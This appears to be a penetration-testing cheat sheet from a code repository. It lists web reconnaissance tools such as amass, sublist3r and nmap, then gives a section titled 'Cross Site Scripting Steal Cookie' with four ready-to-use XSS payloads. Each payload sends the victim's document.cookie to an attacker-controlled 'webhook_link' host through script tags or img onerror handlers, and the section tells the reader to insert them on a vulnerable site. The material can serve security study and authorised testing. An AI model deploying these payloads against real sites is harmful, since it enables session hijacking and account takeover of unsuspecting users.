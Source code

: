 ## Web Application Enumeration
- [assetfinder](https://github.com/tomnomnom/assetfinder):
    - Find domains and subdomains potentially related to a given domain.
- [amass](https://github.com/OWASP/Amass)
    - Performs network mapping of attack surfaces and external asset discovery using open source information gathering and active reconnaissance techniques.
- [sublist3r](https://github.com/aboul3la/Sublist3r)
    -  Enumerate subdomains of websites using OSINT
- [httprobe](https://github.com/tomnomnom/httprobe)
    - Take a list of domains and probe for working http and https servers.
- [waybackurls](https://github.com/tomnomnom/waybackurls)
    - Accept line-delimited domains on stdin, fetch known URLs from the Wayback Machine for *.domain and output them on stdout.
- [whatweb](https://github.com/urbanadventurer/WhatWeb)
    - recognises web technologies including content management systems (CMS), blogging platforms, statistic/analytics packages, JavaScript libraries, web servers, and embedded devices.
- [nmap](https://nmap.org/download.html)
    - Performs network mapping of attack surfaces and external asset discovery using open source information gathering and active reconnaissance techniques.
- [eyewitness](https://github.com/FortyNorthSecurity/EyeWitness) 
    - EyeWitness is designed to take screenshots of websites provide some server header info, and identify default credentials if known.

## Cross Site Scripting Steal Cookie

### Insert this payload on vulnerable site

1. Payload with alert
```javascript
<script>
alert(document.cookie);
var i=new Image;
i.src="http://webhook_link/?"+document.cookie;
</script>
```

2. Payload no alert
```javascript
<script>var i=new Image;i.src="http://webhook_link/?"+document.cookie;</script>
```

3. Payload no script tag
```html
<img src=x onerror=this.src='http://webhook_link/?'+document.cookie;>
```

4. Payload no script tag and loop
```html
<img src=x onerror="this.src='http://webhook_link/?'+document.cookie; this.removeAttribute('onerror');">
```

5. Result 

![alt text](image.png)

